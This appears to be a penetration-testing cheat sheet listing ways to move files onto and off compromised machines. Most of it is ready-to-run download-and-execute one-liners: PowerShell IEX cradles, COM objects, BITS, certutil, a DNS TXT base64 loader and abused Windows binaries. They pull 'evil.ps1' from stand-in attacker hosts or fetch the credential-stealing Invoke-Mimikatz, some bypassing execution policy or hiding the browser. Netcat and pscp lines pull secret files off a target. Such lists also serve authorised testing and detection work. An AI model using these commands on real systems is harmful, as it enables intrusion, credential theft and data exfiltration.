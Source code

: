 # Ultimate File Transfer List
Ultimate File Transfer List

## powershell.exe

### wget.ps1
```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.10.10.10/mimikatz.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

### powershell download proxy auth
```
$Client = New-Object -TypeName System.Net.WebClient
$Client.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
IEX (iwr 'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

### powershell 4.0 & 5.0 Invoke-WebRequest (works in constrained language mode)
```
Invoke-WebRequest "http://10.10.10.10/mimikatz.exe" -OutFile "C:\Users\Public\mimikatz.exe"
```

### powershell 3.0+ download and execute (bypass IE firstrun check)
```
IEX (iwr 'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1' -UseBasicParsing)
```

### powershell (any version)
```
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"
```
```
(New-Object System.Net.WebClient).DownloadFile("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1", "C:\Users\Public\Invoke-Mimikatz.ps1")
```

### hidden IE com object
```
$ie=New-Object -comobject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://EVIL/evil.ps1');start-sleep -s 5;$r=$ie.Document.body.innerHTML;$ie.quit();IEX $r
```

### Msxml2.XMLHTTP COM object
```
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText
```

### WinHttp COM object
```
[System.Net.WebRequest]::DefaultWebProxy
[System.Net.CredentialCache]::DefaultNetworkCredentials
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText
```

### bitstransfer
```
Import-Module bitstransfer;Start-BitsTransfer 'http://EVIL/evil.ps1' $env:temp\t;$r=gc $env:temp\t;rm $env:temp\t; iex $r
```

// DNS TXT approach from PowerBreach (https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerBreach/PowerBreach.ps1)
//   code to execute needs to be a base64 encoded string stored in a TXT record
```
IEX ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(((nslookup -querytype=txt "SERVER" | Select -Pattern '"*"') -split '"'[0]))))
```


### from @subtee
```
<#
<?xml version="1.0"?>
<command>
   <a>
      <execute>Get-Process</execute>
   </a>
  </command>
#>
$a = New-Object System.Xml.XmlDocument
$a.Load("https://gist.githubusercontent.com/subTee/47f16d60efc9f7cfefd62fb7a712ec8d/raw/1ffde429dc4a05f7bc7ffff32017a3133634bc36/gistfile1.txt")
$a.command.a.execute | iex
```

References:

https://gist.github.com/HarmJ0y/bb48307ffa663256e239


## bitsadmin.exe
```
cmd.exe /c "bitsadmin.exe /transfer downld_job /download /priority high http://www.trustedsite.com C:\Temp\mimikatz.exe & start C:\Temp\mimikatz.exe"
```
References: 

https://www.greyhathacker.net/?tag=download-and-execute


## ssh / pscp.exe
```
pscp.exe C:\Users\Public\info.txt phineas@target:/tmp/info.txt
pscp.exe phineas@target:/home/phineas/secret.txt C:\Users\Public\secret.txt
```

## certutil.exe
```
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1
```
References:

https://twitter.com/subtee/status/888122309852016641?lang=en


## certutil.exe / base64
```
certutil.exe -encode mimikatz.exe mimikatz.txt
certutil.exe -decode mimikatz.txt mimikatz.exe

cat binary.exe | base64 -w 0
echo {base64_data} | base64 -d -w 0
```

## print.exe
```
C:\Windows\System32\print.exe /D c:\TEMP\ADExplorer.exe \\live.sysinternals.com\tools\ADExplorer.exe
```
References:

https://twitter.com/Oddvarmoe/status/984749424395112448


## makecab.exe
```
C:\Windows\System32\makecab.exe \\10.10.10.10\share\nmap.zip C:\Users\Public\nmap.cab
```

## esentutl.exe
```
C:\Windows\System32\esentutl.exe /y "\\10.10.10.10\share\mimikatz_trunk.zip" /d"C:\Users\Public\mimikatz_trunk.zip" /o
```

## extrac32.exe
```
C:\Windows\System32\extrac32.exe /Y /C \\10.10.10.10\share\secret.txt C:\Users\Public\secret.txt
```

## netcat file
```
nc -nlvp 8000 > mimi_incoming.exe
nc -nv 10.10.10.10 8000 </tmp/mimikatz.exe
```

## Web Browser / Server
```
python -m SimpleHTTPServer 80
python3 -m http.server
ruby -run -ehttpd . -p80
php -S 0.0.0.0:80
socat TCP-LISTEN:80,reuseaddr,fork
```

## wget
```
wget http://10.10.10.10:80/info.txt -O /tmp/info.txt
```

## curl
```
curl -o /tmp/info.txt http://10.10.10.10:80/info.txt
```

## rdesktop
```
rdesktop 10.10.10.10 -r disk:linux='/home/user/rdesktop/files'
```



